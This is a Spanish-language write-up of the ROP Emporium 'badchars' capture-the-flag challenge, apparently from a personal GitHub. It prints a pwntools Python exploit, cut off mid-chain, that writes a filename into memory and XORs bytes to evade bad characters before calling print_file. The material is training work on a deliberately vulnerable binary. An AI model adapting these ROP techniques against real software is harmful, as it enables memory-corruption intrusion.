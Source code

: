 > Learn to deal with badchars, characters that will not make it into process memory intact or cause other issues such as premature chain termination.
---

### Analizar el binario

Si ejecuto el binario me dice sus badchars, pero para asegurarme escribo un [script](https://github.com/sapellaniz/scripts/blob/master/badchar_finder/badchar_finder.py) que lo comprueba.

Este reto es igual que el anterior excepto por los badchars, así que escribiré la cadena "flXXXtXt" en memoria e iré cambiando los caracteres 'X' por los correspondientes mediante la instrucción XOR.

Después solo tendre que guardar la dirección de memoria escrita en RDI y llamar a la función "print_file".

### Escribir el exploit

El funcionamiento del exploit está explicado en los comentarios:

**exploit.py**

```python
#!/usr/bin/python3
from pwn import *

""" [+] Badchars found: 2e, 61, 67, 78 ('.', 'a', 'g', 'x')"""

binary = "./badchars"
p = process(binary)

writable_address = 0x601500 # gdb vmmap
print_file = 0x400620

offset = b'A'*32
RBP = b'B'*8

# GADGET 1 & 2 => write filename without badchars in memory
# GADGET 1
gadget = p64(0x40069c) # pop R12 ; pop R13 ; pop R14 ; pop R15 ; ret
gadget += b'flXXXtXt'  # Filename without badchars 
gadget += p64(writable_address)
gadget += p64(0x00)
gadget += p64(0x00)

# GADGET 2
gadget += p64(0x400634) # mov [R13], R12 ; ret

# GADGET 3 => XOR 3th char of filename
gadget += p64(0x4006a0) # pop R14 ; pop R15 ; ret
gadget += p64(0x39)
gadget += p64(writable_address + 2)
gadget += p64(0x400628) # xor byte [r15], r14b ; ret

# GADGET 4 => XOR 4th char of filename
gadget += p64(0x4006a0) # pop R14 ; pop R15 ; ret
gadget += p64(0x3f)
gadget += p64(writable_address + 3)
gadget += p64(0x400628) # xor byte [r15], r14b ; ret

# GADGET 5 => XOR 5th char of filename
gadget += p64(0x4006a0) # pop R14 ; pop R15 ; ret
gadget += p64(0x76)
gadget += p64(writable_address + 4)
gadget += p64(0x400628) # xor byte [r15], r14b ; ret

# GADGET 6 => XOR 6th char of filename
```